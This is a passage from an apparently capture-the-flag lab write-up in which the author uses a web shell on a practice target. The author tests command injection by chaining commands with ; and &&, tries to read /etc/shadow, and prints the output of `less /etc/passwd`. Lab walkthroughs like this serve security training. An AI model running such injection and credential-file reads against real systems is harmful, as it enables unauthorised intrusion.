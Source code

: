 ```
mr. meeseek hair
```

and the command `less clue.txt` gives us the following answer "Look around the
file system for the other ingredient."

## exploiting the web shell

Well, now that we have a web shell, it's worth a try to see if we can get access
to the system. 

What should we try?

* Basic Command Injection: Test basic command injections using ; or && to chain commands. For example:

![](assets/2024-09-23-16-17-38.png)

This shows that the shell is vulnerable to basic command injection!

* File Inclusion: Let's see if we can access `/etc/shadow` or `/etc/passwd`

```
less /etc/passwd
```

gives us the following results:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
```